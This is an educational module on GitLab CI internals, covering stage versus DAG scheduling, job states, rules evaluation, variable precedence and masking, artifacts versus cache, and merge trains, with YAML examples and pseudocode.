








# Module 02: GitLab CI Execution Model: Stages vs Needs DAG, Workflow Rules, Variable Precedence, Artifacts, and Merge Trains

> **Primary sources:** GitLab CI/CD YAML Reference ([Job Control, `needs`, `rules`, and Variables](https://docs.gitlab.com/ci/yaml/)); GitLab Architecture Documentation ([`Ci::Pipeline` and `Ci::Build` State Machines](https://docs.gitlab.com/development/cicd/index.html)); GitLab Merge Trains & Merged Results Documentation (GitLab 19.x).
>
> **Executable proof:** [`examples/ts/02-gitlab-ci-execution-model-and-dag.test.ts`](../examples/ts/02-gitlab-ci-execution-model-and-dag.test.ts) asserts topological DAG sorting, asynchronous stage-skipping resolution, 10-tier variable precedence hierarchy, artifact dependency filtering, and speculative merge train queue rebasing.

---

## 1. Formal Foundations: The GitLab CI Execution Model

A continuous integration pipeline is fundamentally a computational job dependency graph executed over a distributed cluster of worker nodes. GitLab CI supports two distinct execution models: the classical synchronous stage barrier model and the asynchronous Directed Acyclic Graph (DAG) model.





### 1.1 The Synchronous Stage Barrier Model

In the synchronous stage model, a pipeline defines an ordered sequence of stages:

$$S = (s_1, s_2, \dots, s_k)$$

Every job $j \in J$ is assigned to exactly one stage $\sigma(j) \in S$. The execution semantics enforce a global barrier synchronization: no job in stage $s_{i+1}$ can transition to the `pending` or `running` state until every job in stage $s_i$ has completed with `status = SUCCESS` (or `status = FAILED` with `allow_failure = true`).

Let $J(s) = \{ j \in J \mid \sigma(j) = s \}$ be the set of jobs in stage $s$, and let $\tau(j)$ denote the execution duration of job $j$. Assuming infinite runner capacity, the latency of stage $s$ is governed by its slowest job (the straggler):

$$L(s) = \max_{j \in J(s)} \tau(j)$$

The total pipeline latency under the synchronous stage barrier model is the direct sum of stage maxima:

$$L_{\text{stage\_pipeline}} = \sum_{i=1}^k \max_{j \in J(s_i)} \tau(j)$$

Under this model, fast jobs are artificially delayed. In the diagram above, `Build Frontend` finishes in 4 minutes, but `Frontend Unit` cannot begin until minute 8 because `Build Backend` takes 8 minutes.

### 1.2 The Asynchronous Directed Acyclic Graph (DAG) Model

The DAG execution model decouples job dispatch from stage barriers using the `needs:` keyword. A pipeline is modeled as a directed acyclic graph $G = (J, E)$, where vertices $J$ represent individual jobs and directed edges $(u, v) \in E$ represent explicit causal prerequisites ($v \text{ needs } u$).

A job $v$ transitions to the `pending` state immediately when all immediate predecessors in the graph complete successfully:

$$\text{Ready}(v) \iff \forall u \in \text{Parents}(v), \quad \text{Status}(u) = \text{SUCCESS}$$

The start time $\text{start}(v)$ of job $v$ is determined strictly by the maximum completion time of its prerequisites:

$$\text{start}(v) = \max_{u \in \text{Parents}(v)} \text{finish}(u)$$

Total pipeline duration is bounded by the graph's **critical path** (the longest weighted path from source to sink):

$$L_{\text{DAG}} = \max_{p \in \text{Paths}(G)} \sum_{j \in p} \tau(j)$$

In the DAG example, `Frontend Unit` starts immediately at minute 4, and `Deploy Staging` begins as soon as its real dependencies finish, drastically reducing end-to-end pipeline latency.

---

## 2. Job Lifecycle and the Internal State Machine

Every job (`Ci::Build` in GitLab Rails) transitions through a deterministic finite automaton (DFA) managed by PostgreSQL transactions and Redis queue events.



### 2.1 State Transition Invariants

1. **`created`**: The job record is instantiated in the database during pipeline compilation. If the job has unmet dependencies or is in a future stage without `needs:`, it remains in `created`.
2. **`pending`**: All causal prerequisites have completed successfully. The job enters the PostgreSQL queue table (`ci_pending_builds`) where it is eligible for polling runners.
3. **`running`**: A runner has leased the build token via `POST /api/v4/jobs/request`. A heartbeat timer updates `updated_at` every 30 seconds. If the runner drops off without renewing the lease within the timeout window, the job transitions to `failed` (`stuck_or_timeout`).
4. **`success`**: The runner process returned exit code 0, and all declared artifacts and reports were successfully uploaded to object storage.
5. **`failed`**: The job script returned a non-zero exit code, exceeded `timeout:`, exhausted runner memory (OOMKilled), or failed artifact upload. If `allow_failure: true` is set, downstream dependencies treat this failure as a non-blocking completion.
6. **`canceled` / `skipped`**: The job was canceled by a user, superseded by a newer pipeline on the same branch via `interruptible: true`, or skipped because an upstream prerequisite failed.

---

## 3. Workflow Rules and Job Rules (`workflow:rules` vs. `rules:`)

GitLab 19 strictly enforces declarative rule evaluation. Legacy `only/except` syntax is deprecated and cannot be mixed with `rules:`.

### 3.1 Rule Evaluation Semantics

Rules are evaluated as an ordered list of clauses. The evaluation engine applies **first-match semantics**: the first rule whose condition evaluates to `true` determines whether the job is included in the pipeline and under what conditions (`when: on_success`, `when: manual`, `when: delayed`, `when: never`).



### 3.2 Top-Level `workflow:rules` vs. Job-Level `rules:`

- **`workflow:rules`**: Governs whether the entire pipeline is instantiated. If the matching clause evaluates to `when: never`, GitLab does not create a pipeline record, saving database overhead and runner polling cycles.
- **Job-level `rules:`**: Governs whether an individual job within an instantiated pipeline is included in the execution graph.

```yaml
# Top-level workflow rules: prevent redundant branch pipelines when MR is open
workflow:
  rules:
    - if: '$CI_PIPELINE_SOURCE == "merge_request_event"'
    - if: '$CI_COMMIT_BRANCH && $CI_OPEN_MERGE_REQUESTS'
      when: never
    - if: '$CI_COMMIT_BRANCH'

# Job-level rules: conditional execution based on path changes and branches
test-frontend:
  stage: test
  rules:
    - if: '$CI_PIPELINE_SOURCE == "merge_request_event"'
      changes:
        paths:
          - 'frontend/**/*'
          - 'package.json'
          - 'package-lock.json'
        compare_to: 'refs/heads/main'
      when: on_success
    - if: '$CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH'
      when: on_success
    - when: never
  script:
    - npm test
```

> [!WARNING]
> In branch pipelines (as opposed to Merge Request pipelines), `rules:changes` without an explicit `compare_to:` directive compares the current commit against its immediate Git parent (`HEAD~1`). If a developer pushes a branch with five commits, `changes:` only inspects the fifth commit! In Merge Request pipelines, `rules:changes` automatically compares against the target branch tip. Always specify `compare_to:` when evaluating `changes:` outside of merge request pipelines.

---

## 4. Variable Precedence Hierarchy

Variables in GitLab CI customize pipeline execution across multiple scopes (instance, group, project, pipeline, job). When multiple variables share the same key, GitLab resolves collisions using a strict 10-tier precedence hierarchy (ranked from highest priority to lowest priority).



| Precedence Tier | Variable Source | Security & Scope Controls | Overridable by Lower Tiers? |
| :-- | :-- | :-- | :-- |
| **1 (Highest)** | Trigger token API payload (`POST /api/v4/projects/:id/trigger/pipeline`) | Scoped to specific API invocation | No |
| **2** | Scheduled pipeline execution variables | Scoped to schedule record | No |
| **3** | Manual pipeline trigger variables via GitLab Web UI | Passed by authorized operator | No |
| **4** | Project Settings Variables (`Settings > CI/CD > Variables`) | Protected (only on protected branches) / Masked / Hidden | No |
| **5** | Group Settings Variables (inherited down project tree) | Protected / Masked / Environment Scoped | No |
| **6** | Instance Admin Variables (GitLab-wide) | Protected / Masked | No |
| **7** | Job-specific `variables:` block in `.gitlab-ci.yml` | Scoped to single job definition | Yes (by Tiers 1–6) |
| **8** | Pipeline root `variables:` block in `.gitlab-ci.yml` | Committed to source repository | Yes (by Tiers 1–7) |
| **9** | Inherited variables via `extends`, `!reference`, or `component` | Template defaults | Yes (by Tiers 1–8) |
| **10 (Lowest)** | Predefined runner variables (`CI_COMMIT_SHA`, `CI_JOB_ID`) | Injected by GitLab Rails / Runner runtime | Overridable only if `variables: CI_...` is set in specific edge contexts |

### 4.1 Masked and Protected Variables Invariants

- **Protected Variables**: Only injected into jobs running on **protected branches** (e.g., `main`) or **protected tags** (e.g., `v*`). Jobs executing on untrusted feature branches cannot view or read protected variables, preventing secret exfiltration via malicious Merge Requests.
- **Masked Variables**: Filtered from job execution console logs. To satisfy the masking engine, the variable value must match strict requirements:
  - Must be a single line (no raw newlines `\n`).
  - Must be at least 8 characters long.
  - Must contain only Base64-compatible characters (`[a-zA-Z0-9_+=/@:.~-]`).
  - If a secret contains raw JSON or PEM-encoded private keys, it cannot be masked natively; it must be stored as a **File-type Variable** or base64-encoded.

---

## 5. Artifacts vs. Cache: Memory and Storage Hierarchy

Engineers frequently conflate GitLab CI **Artifacts** and **Caches**. They operate at completely different layers of the infrastructure stack with distinct durability and consistency guarantees.



### 5.1 Comparative Architecture Matrix

| Architectural Property | CI/CD Artifacts (`artifacts:`) | CI/CD Cache (`cache:`) |
| :-- | :-- | :-- |
| **Primary Purpose** | Deterministic, immutable handoff of build outputs between pipeline stages | Ephemeral acceleration of compilation/dependency downloads across pipeline runs |
| **Consistency Guarantee** | **Strictly Consistent**: Guaranteed to be uploaded and downloaded; pipeline fails if upload fails | **Best-Effort / Eventual**: Pipeline proceeds even if cache download or upload misses or fails |
| **Storage Location** | GitLab Object Storage (coordinator managed); retained per pipeline | S3/MinIO bucket configured on GitLab Runner; shared across runner pool |
| **Retention Policy** | Controlled by `expire_in:` (e.g., `1 hour`, `1 week`, `never`); tracked by database | Managed by S3 lifecycle rules / runner cache pruning; can vanish at any time |
| **Cross-Pipeline Sharing** | No; scoped strictly to a single pipeline instance (unless accessed via API) | Yes; shared across multiple pipelines matching the `cache:key` |
| **Security Scope** | Inherits pipeline and job access controls; downloadable from web UI | Must not store sensitive credentials; accessible by any job with matching cache key |

### 5.2 Artifact Handoff Semantics in DAG Pipelines

By default in classical stage pipelines, each job automatically downloads artifacts from all jobs in previous stages. However, **in a DAG pipeline using `needs:`**, GitLab alters this behavior:

```yaml
build-app:
  stage: build
  script: npm run build
  artifacts:
    paths: [dist/]

test-lint:
  stage: test
  script: npm run lint
  artifacts:
    paths: [lint.log]

deploy-app:
  stage: deploy
  needs:
    - job: build-app
      artifacts: true # Only downloads dist/ from build-app; ignores test-lint!
  script: ./deploy.sh dist/
```

> [!IMPORTANT]
> When a job specifies `needs: [...]`, it downloads artifacts **only** from the jobs explicitly listed in its `needs:` array. It completely ignores artifacts from earlier stages unless they are declared in `needs:` or `dependencies:`.

---

## 6. Merge Trains and Pipelines-for-Merged-Results

In high-concurrency engineering repositories, multiple developers merge branches into `main` simultaneously. This creates a critical race condition known as **semantic merge conflicts**.

### 6.1 The Semantic Merge Race Condition

Suppose developer Alice branches at commit $C_0$ and modifies function signature `calculateTax(amount, rate)`. Her pipeline passes on her branch. Simultaneously, developer Bob branches from $C_0$ and adds a caller `calculateTax(100)`. Bob's pipeline also passes on his branch. When both branches are merged into `main`, Git performs a clean text merge without conflict markers. However, the application crashes at runtime in production due to a signature mismatch.



### 6.2 Pipelines for Merged Results

To eliminate semantic drift before merging, GitLab provides **Pipelines for Merged Results**. Instead of testing the tip of the feature branch (`refs/heads/feature`), GitLab dynamically creates an ephemeral merge ref:

$$\text{Ref}_{\text{merged}} = \text{Merge}(\text{refs/heads/target}, \text{refs/heads/source})$$

The pipeline executes entirely against $\text{Ref}_{\text{merged}}$. If the combined state fails tests, the Merge Request is blocked from merging.

### 6.3 Merge Trains: Speculative Concurrency Queuing

While Merged Results prevent broken code, sequential merges throttle delivery throughput: if each pipeline takes 30 minutes, a team can merge at most two MRs per hour. **Merge Trains** solve this through **speculative parallel execution**.



When MR-101, MR-102, and MR-103 join the Merge Train simultaneously:

1. **Car 1 (MR-101)** evaluates against $C_0 \oplus \text{MR}_{101}$.
2. **Car 2 (MR-102)** speculatively assumes MR-101 will succeed and evaluates against $(C_0 \oplus \text{MR}_{101}) \oplus \text{MR}_{102}$.
3. **Car 3 (MR-103)** speculatively evaluates against $((C_0 \oplus \text{MR}_{101}) \oplus \text{MR}_{102}) \oplus \text{MR}_{103}$.

**The Derailment Recovery Invariant**: If Car 1 passes, it immediately merges to `main`, and Car 2 becomes the new train head with zero delay. If Car 2 fails, Car 2 is ejected from the train. Car 3 is automatically aborted, rebased onto Car 1 ($C_0 \oplus \text{MR}_{101} \oplus \text{MR}_{103}$), and a new pipeline is dispatched without human intervention.

---

## 7. CLRS-Style Pseudocode: DAG Scheduler & Variable Precedence Resolver

Below are the formal algorithms executing topological job dispatch and hierarchical variable precedence resolution.

### 7.1 Asynchronous DAG Job Dispatch Engine

```text
SCHEDULE-DAG-JOBS(JobGraph, CompletedJobs, RunningJobs, AvailableRunners)
1   // JobGraph G = (V, E), where edge (u, v) in E means v needs u
2   readyQueue = EMPTY-FIFO-QUEUE()
3
4   // Loop invariant: For every job v in JobGraph.V, v is enqueued into readyQueue
5   // if and only if all of its causal prerequisites are in CompletedJobs with status SUCCESS,
6   // and v is neither currently running nor already completed.
7   for each v in JobGraph.V
8       if v in CompletedJobs or v in RunningJobs
9           continue
10      prereqs = PARENTS(JobGraph, v)
11      allPrereqsSucceeded = TRUE
12      for each u in prereqs
13          if u not in CompletedJobs or CompletedJobs[u].STATUS != "SUCCESS"
14              allPrereqsSucceeded = FALSE
15              break
16      if allPrereqsSucceeded == TRUE
17          ENQUEUE(readyQueue, v)
18
19  // Allocate ready jobs to available runner workers
20  while not IS-EMPTY(readyQueue) and not IS-EMPTY(AvailableRunners)
21      jobToDispatch = DEQUEUE(readyQueue)
22      runner = DEQUEUE(AvailableRunners)
23      filteredArtifacts = RESOLVE-JOB-ARTIFACTS(jobToDispatch, CompletedJobs)
24      DISPATCH-JOB-TO-RUNNER(runner, jobToDispatch, filteredArtifacts)
25      INSERT(RunningJobs, jobToDispatch)
26
27  return RunningJobs
```

### 7.2 Ten-Tier Variable Precedence Resolver

```text
RESOLVE-VARIABLES(JobDef, PipelineEvent, ScopeHierarchy)
1   // ScopeHierarchy contains tiers: Instance, Group, Project, Trigger, Schedule, Manual
2   finalVariables = EMPTY-DICTIONARY()
3
4   // Precedence Tiers from lowest (10) to highest (1)
5   // Invariant: Higher precedence tiers overwrite keys set by lower precedence tiers.
6
7   // Tier 10: Predefined System Variables
8   for each (k, v) in GET-PREDEFINED-VARIABLES(PipelineEvent)
9       finalVariables[k] = { VALUE: v, PROTECTED: FALSE, MASKED: FALSE }
10
11  // Tier 9 & 8: YAML Job and Pipeline Variables
12  for each (k, v) in PipelineEvent.ROOT_YAML_VARIABLES
13      finalVariables[k] = { VALUE: v, PROTECTED: FALSE, MASKED: FALSE }
14  for each (k, v) in JobDef.YAML_VARIABLES
15      finalVariables[k] = { VALUE: v, PROTECTED: FALSE, MASKED: FALSE }
16
17  // Tiers 6, 5, 4: Instance, Group, and Project Settings Variables
18  for each tier in [ScopeHierarchy.INSTANCE, ScopeHierarchy.GROUP, ScopeHierarchy.PROJECT]
19      for each varDef in tier.VARIABLES
20          if varDef.PROTECTED == TRUE and PipelineEvent.IS_PROTECTED_REF == FALSE
21              continue // Skip protected variables on untrusted refs
22          finalVariables[varDef.KEY] = { VALUE: varDef.VALUE, PROTECTED: varDef.PROTECTED, MASKED: varDef.MASKED }
23
24  // Tiers 3, 2, 1: Manual, Scheduled, and Trigger API Variables
25  if PipelineEvent.MANUAL_VARS != NIL
26      for each (k, v) in PipelineEvent.MANUAL_VARS
27          finalVariables[k] = { VALUE: v, PROTECTED: FALSE, MASKED: FALSE }
28  if PipelineEvent.SCHEDULE_VARS != NIL
29      for each (k, v) in PipelineEvent.SCHEDULE_VARS
30          finalVariables[k] = { VALUE: v, PROTECTED: FALSE, MASKED: FALSE }
31  if PipelineEvent.TRIGGER_VARS != NIL
32      for each (k, v) in PipelineEvent.TRIGGER_VARS
33          finalVariables[k] = { VALUE: v, PROTECTED: FALSE, MASKED: FALSE }
34
35  return finalVariables
```

---

## 8. Then vs. Now: Evolution of GitLab CI Execution Mechanics

| Dimension | Legacy GitLab CI (< 14.x) | Modern GitLab 19+ Paradigm | Technical Driver |
| :-- | :-- | :-- | :-- |
| **Pipeline Scheduling** | Strictly sequential stages (`stages: [build, test, deploy]`) | Asynchronous DAG (`needs: [...]`) with critical-path optimization | Eliminates idle runner waiting behind unrelated straggler jobs in identical stages. |
| **Job Filtering** | `only: [master, tags]` and `except: [schedules]` | Declarative `rules:` with boolean expressions and `workflow:rules` | `only/except` lacked compound logic, could not query variable state, and had undefined precedence. |
| **Concurrent Merges** | Manual branch rebasing by developers; "Fast-forward merge only" blocking | Speculative Merge Trains with automated derailment ejection | Eliminates manual developer rebase thrashing while preventing semantic merge regressions. |
